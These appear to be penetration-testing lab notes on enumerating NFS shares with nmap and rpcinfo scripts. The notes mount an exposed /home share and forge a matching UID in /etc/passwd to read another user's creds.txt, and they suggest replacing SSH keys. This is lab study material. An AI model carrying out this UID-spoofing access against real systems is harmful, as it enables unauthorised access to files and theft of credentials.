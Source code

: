 ## Scanning for NFS shares
Both Portmapper and RPCbind run on TCP port 111. RPCbin maps RPC services to the ports on which they listen, and RPC processes notify RPCbind when they start, registering the ports they are listening on and the RPC program numbers they expect to serve.

The RPCbin service redirects the client to the proper port number (often TCP port 2049) so it can communicate with the requested service.
```bash
nmap -v -p 111 10.11.1.1-254
```

We can use NSE scripts like rpcinfo to find services that may have registered with rpcbind:
```bash
nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254
```

## Nmap NFS NSE scripts
We can use NSE scripts found in the **/usr/shar/nmap/scripts** directory to collect and enumerate NFS services.
```bash
ls -1 /usr/share/nmap/scripts/nfs*
```

All the scripts can be run using the wildcard character * in the script name
```bash
nmap -p 111 --script nfs* 10.11.1.72

# Nmap scan report for 10.11.1.72

# PORT    STATE SERVICE
# 111/tcp open  rpcbind
# | nfs-showmount: 
# |_  /home 10.11.0.0/255.255.0.0

```

In this case, the **/home** directory is being shared and can be accessed by mounting on your own machine. **-o nolock** is used to disable file locking, which is often needed for older NFS servers.
```bash
mkdir home
sudo mount -o nolock 10.11.1.72:/home ~/home/
cd home/ && ls
```

```bash
cd marcus
ls -la


# total 24
# drwxr-xr-x 2 1014  1014 4096 Jun 10 09:16 .
# drwxr-xr-x 7 root root 4096 Sep 17  2015 ..
# -rwx------ 1 1014  1014   48 Jun 10 09:16 creds.txt


cat creds.txt

# cat: creds.txt: Permission denied

```

It appears we do not have permission to view this file. Taking a closer look at the file permissions, we can see that its owner has a UUID of 1014, and also _read (r)_, _write (w)_, and _execute (x)_ permissions on it. 

Since we have complete access to our Kali machine, we can try to add a local user to it using the adduser command, change its UUID to 1014, su to that user, and then try accessing the file again:
```bash
sudo adduser pwn

sudo sed -i -e 's/1001/1014/g' /etc/passwd

cat /etc/passwd | grep pwn

# pwn:x:1014:1014:,,,:/home/pwn:/bin/bash
```

Switching to the newly added *pwn* user, we use **id** to display the current user ID
```bash
su pwn

id

# uid=1014(pwn) gid=1014 groups=1014

cat creds.txt
```

We can now read the file and make changes to it if we so wish. We can make use of this access to replace SSH keys, read confidential files etc.
***
## Topical Exercises

1. Use Nmap to make a list of machines running NFS in the labs.
```bash
nmap -v -p 111 10.11.1.1-254 -oG nfsscan
grep open nfsscan | cut -d " " -f 2 > nfshosts
```
![[Pasted image 20221208215546.png]]

2. Use NSE scripts to scan these systems and collect additional information about accessible shares.
```bash
nmap -p 111 --script /usr/share/nmap/scripts/nfs* -iL nfshosts -oG nfsnsescan
nmap -p 111 --script nfs-showmount -iL nfshosts
```
![[Pasted image 20221208220258.png]]
![[Pasted image 20221208220451.png]]
